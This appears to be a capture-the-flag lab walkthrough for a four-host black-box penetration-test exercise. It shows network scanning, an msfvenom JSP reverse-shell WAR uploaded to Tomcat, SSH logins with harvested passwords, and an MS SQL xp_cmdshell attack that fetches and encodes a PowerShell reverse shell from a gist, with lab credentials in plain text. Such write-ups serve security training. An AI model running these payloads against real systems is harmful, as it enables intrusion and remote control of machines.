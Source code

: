 # BB1

## Prework

### Connect to VPN

```bash
sudo openvpn black-box-penetration-test-1.ovpn
```

### Scan network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap &&
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt &&
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oX portScan.xml
```

```bash
wget https://gist.githubusercontent.com/fer/4b8e978ab73b0db151594351d1e854d6/raw/1e496bfe6511e5597a81a369f884c7a715cac732/nmap2md.sh
```

```bash
sh nmap2md.sh portScan.xml | xclip
```

## Scanner

> Generated on **Sun Jul 11 13:40:33 2021** with `nmap 7.91`.

```bash
nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oX portScan.xml
```

## Hosts Alive \(4\)

| Host | OS | Accuracy |
| :--- | :--- | :--- |
| 172.16.64.101 | Linux 3.12 | 95% |
| 172.16.64.140 | Linux 3.12 | 95% |
| 172.16.64.182 | Linux 3.12 | 95% |
| 172.16.64.199 | Microsoft Windows 10 | 96% |

## Open Ports and Running Services

### 172.16.64.101 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 8080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 59919/tcp | open | http | Apache httpd 2.4.18 |

#### dirbuster

* Target URL: [http://172.16.64.101:8080](http://172.16.64.101:8080)
* File with list of dirs/files: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
* File Extension: \* 

![](../../../.gitbook/assets/dirbuster-101-1.png)

![](../../../.gitbook/assets/dirbuster-101-2.png)

#### Gaining access

{% hint style="info" %}
Trying to access unsuccessfully for a couple of times will get you redirected to [**http://172.16.64.101:8080/host-manager/html**](http://172.16.64.101:8080/host-manager/html), where the following information is shown:

```text
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```

[**http://172.16.64.101:8080/manager/html**](http://172.16.64.101:8080/manager/html) ****allows you to upload a war file.
{% endhint %}

#### Generate your reverse shell with `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=1234 -f war > shell.war
```

```bash
nc -lvp 1234
```

{% hint style="success" %}
**Flag encountered!**

```bash
tomcat8@xubuntu:/home/developer$ cat flag.txt
Congratulations, you got it!
tomcat8@xubuntu:/home/adminels/Desktop$ cat flag.txt 
You did it!
```
{% endhint %}

### 172.16.64.140 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 80/tcp | open | http | Apache httpd 2.4.18 |

#### dirbuster

![](../../../.gitbook/assets/dirbuster-140-1.png)

![](../../../.gitbook/assets/dirbuster-140-2.png)

{% hint style="info" %}
**Discovering info**

On this url we find the following connection parameters for a SQL database server: [**http://172.16.64.140:80/project/backup/test/sdadas.txt**](http://172.16.64.140:80/project/backup/test/sdadas.txt):

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```
{% endhint %}

{% hint style="success" %}
**Flag encountered!**

Under [**http://172.16.64.140/project/354253425234234/flag.txt**](http://172.16.64.140/project/354253425234234/flag.txt) we find the following content:

```text
Congratulations, you exploited this machine!
Now continue to others.
```
{% endhint %}

### 172.16.64.182 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |

{% hint style="info" %}
**We use the credentials we discovered while exploring 172.16.64.199:**

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
```
{% endhint %}

{% hint style="success" %}
**Flag encountered**!

```text
sshpass -p dF3334slKw ssh developer@172.16.64.182
developer@xubuntu:~$ find . | grep flag
developer@xubuntu:~$ cat flag.txt 
Congratulations, you got it!
```
{% endhint %}

### 172.16.64.199 \(Microsoft Windows 10 - 96%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 135/tcp | open | msrpc | Microsoft Windows RPC |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn |
| 445/tcp | open | microsoft-ds |  |
| 1433/tcp | open | ms-sql-s | Microsoft SQL Server 2014 12.00.2000.00; RTM |
| 49664/tcp | open | msrpc | Microsoft Windows RPC |
| 49665/tcp | open | msrpc | Microsoft Windows RPC |
| 49666/tcp | open | msrpc | Microsoft Windows RPC |
| 49667/tcp | open | msrpc | Microsoft Windows RPC |
| 49668/tcp | open | msrpc | Microsoft Windows RPC |
| 49669/tcp | open | msrpc | Microsoft Windows RPC |
| 49670/tcp | open | msrpc | Microsoft Windows RPC |
| 49943/tcp | open | ms-sql-s | Microsoft SQL Server 2014 12.00.2000 |

#### Attacking MS SQL Server

```bash
# Grab payload
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;

# Substitute ip and port
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1;

# Encode payload
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3 | base64 -w 0 > encoded_payload;

# We'll use this payload in our shell
cat encoded_payload 
```

```bash
# Leave nc opened in one terminal
nc -l 1234
```

```bash
# Connect to database server and inject reverse shell via powershell
mssql-cli -S 172.16.64.199 -U fooadmin -P fooadmin
> enable_xp_cmdshell
> RECONFIGURE
> xp_cmdshell whoami
> xp_cmdshell powershell -e <payload_from_previous_step>
```

{% hint style="success" %}
**Flag encountered!**

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
```
{% endhint %}

{% hint style="info" %}
`ssh://developer:dF3334slKw@172.16.64.182:22` **seems like a ssh connection string:**

```
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22############################################################################################################################################################################################
```
{% endhint %}

